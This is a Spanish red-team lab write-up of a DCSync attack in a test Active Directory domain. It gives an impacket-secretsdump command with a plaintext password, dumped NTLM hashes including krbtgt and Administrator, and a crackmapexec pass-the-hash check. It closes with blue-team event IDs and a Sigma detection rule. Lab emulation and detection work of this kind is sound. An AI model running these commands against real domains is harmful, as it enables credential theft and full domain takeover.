

# DCSync — Operación IRON FOREST
## Lab-04: Volcado de credenciales via DCSync con fin.garcia (no-DA)

**Operación:** IRON FOREST | **Adversario:** APT28 (Fancy Bear) | **Fase:** 05 — DCSync  
**Fecha:** 29/05/2026 | **Operador:** Adrián Camacho

---

## FASE 05 — DCSync

### 5.1 Volcado de hashes NTLM del dominio

**Objetivo:** Con los DCSync rights añadidos en Fase 04, `fin.garcia` puede replicar credenciales del dominio sin ser Domain Admin.

```bash
impacket-secretsdump 'atackcorp.local/fin.garcia:Finance2024!@10.0.2.10' -just-dc-ntlm
```

**Output:**
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrador:500:aad3b435b51404eeaad3b435b51404ee:bc3abc2e0673a58e9e559d415b56d69d:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d5237a2e43cb315c90679e2a5dae34ad:::
atackcorp.local\ceo.martinez:1103:...:bac85c92cf66a07806701510efe76ada:::
atackcorp.local\fin.garcia:1105:...:ca4d343543c50f99cececfe83bddd4c1:::
atackcorp.local\backup_svc:1110:...:de769e624bfe51cb4109255f0f1e0910:::
DC-01$:1000:...:7699bf60bbd4dd79a7fab65bbaf132dc:::
```

> 📸 Captura:
> 

---

### 5.2 Crown Jewels obtenidos

| Usuario | Hash NTLM | Relevancia |
|---|---|---|
| `Administrador` | `bc3abc2e0673a58e9e559d415b56d69d` | **Domain Admin — Pass-the-Hash directo** |
| `krbtgt` | `d5237a2e43cb315c90679e2a5dae34ad` | **Golden Ticket — persistencia indefinida** |
| `DC-01$` | `7699bf60bbd4dd79a7fab65bbaf132dc` | Machine account DC |

**Hashes guardados en:** `loot/dcsync_hashes.txt`

---

### 5.3 Verificación — Pass-the-Hash con hash Administrador

```bash
# Verificar acceso DA con hash NTLM
crackmapexec smb 10.0.2.10 -u 'Administrador' -H 'bc3abc2e0673a58e9e559d415b56d69d'
```

---

### 5.4 Detección — Blue Team

**Event IDs generados:**
- `4662` — Acceso a objeto AD con `DS-Replication-Get-Changes` desde IP no-DC
- `4624` — Logon Type 3 desde Kali (10.0.2.9)

**Indicador clave:** DCSync desde una IP que no es un Domain Controller es siempre sospechoso.

**Regla SIGMA:**
```yaml
title: DCSync from Non-Domain-Controller
detection:
  selection:
    EventID: 4662
    Properties|contains:
      - '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'
      - '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'
  filter:
    SubjectUserName|endswith: '$'
  condition: selection and not filter
level: critical
```

---

*Operación IRON FOREST — Adrián Camacho | 29/05/2026*